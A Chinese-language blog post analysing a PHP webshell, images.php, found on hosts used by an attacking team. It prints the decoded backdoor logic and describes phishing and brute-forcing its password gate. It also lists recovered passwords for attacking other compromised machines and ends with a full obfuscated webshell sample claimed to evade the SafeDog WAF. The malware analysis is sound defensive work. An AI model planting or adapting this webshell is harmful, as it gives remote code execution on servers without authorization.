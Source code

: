```yaml
---
layout: post
author: Vulkey_Chen
title: "对某攻击队的Webshell进行分析"
date: 2019-08-21
music-id: 
permalink: /archives/2019-08-21/1
description: "对某攻击队的Webshell进行分析"
---
```


对我⽅已拿下的攻击方⾁鸡进⾏⽇志、⽂件等分析，发现⼤部分肉鸡的网站根目录都存在 images.php，提取该文件的内容并分析：

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2019-08-21/image020.png)

提出较为重要的那一段base64decode后的PHP代码进行分析：

```php
@session_start();//开启session

if(isset($_POST['code']))substr(sha1(md5($_POST['a'])),36)=='222f'&&$_SESSION['theCode']=$_POST['code'];if(isset($_SESSION['theCode']))@eval(base64_decode($_SESSION['theCode']));
```

**代码逻辑**：判断POST请求参数code是否有值，当满足条件时则执行`substr(sha1(md5($_POST['a'])),36)=='222f'&&$_SESSION['theCode']=$_POST['code']`，这段代码的意思为将POST请求参数a的值进行md5加密再进行sha1加密，最后从加密后的字符串的第36位开始取值（sha1加密后的值为40位，这里也就是取后4位），当后四位等于`222f`的时候条件为真则执行`$_SESSION['theCode']=$_POST['code']`（Why？**&&是逻辑与操作，如果&&的前面为false了，后面的就不会执行了，所以在这里也就间接的形成了一种判断从而必须满足后四位等于222f的条件**），最后进入该代码执行：`if(isset($_SESSION['theCode']))@eval(base64_decode($_SESSION['theCode']));`，代码如此简单就不再重复描述～

为了满足条件（`substr(sha1(md5($_POST['a'])),36)=='222f'`），我们可以采用钓鱼的方式等攻击方人员主动上钩（修改`images.php`即可）：

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2019-08-21/image021.png)

当攻击方人员主动连接该Webshell时会将POST请求参数a的值写入到`pass.txt`中。

但此方法较为被动，我们还可以在本地搭建一个环境搭配Burp去爆破获取后四位为`222f`的明文：

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2019-08-21/image022.png)

![img](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2019-08-21/image023.png)

获得了：`abc123000`、`lipeng520`、`160376`这三个密码，可利用密码对其他的肉鸡再次进行反打。

**代码样本**：（测试可过安全狗）

```php
<?php

$CF='c'.'r'.'e'.'a'.'t'.'e'.'_'.'f'.'u'.'n'.'c'.'t'.'i'.'o'.'n';

$EB=@$CF('$x','e'.'v'.'a'.'l'.'(b'.'a'.'s'.'e'.'6'.'4'.'_'.'d'.'e'.'c'.'o'.'d'.'e($x));');

$EB('QHNlc3Npb25fc3RhcnQoKTtpZihpc3NldCgkX1BPU1RbJ2NvZGUnXSkpc3Vic3RyKHNoYTEobWQ1KCRfUE9TVFsnYSddKSksMzYpPT0nMjIyZicmJiRfU0VTU0lPTlsndGhlQ29kZSddPSRfUE9TVFsnY29kZSddO2lmKGlzc2V0KCRfU0VTU0lPTlsndGhlQ29kZSddKSlAZXZhbChiYXNlNjRfZGVjb2RlKCRfU0VTU0lPTlsndGhlQ29kZSddKSk7');

?>
```
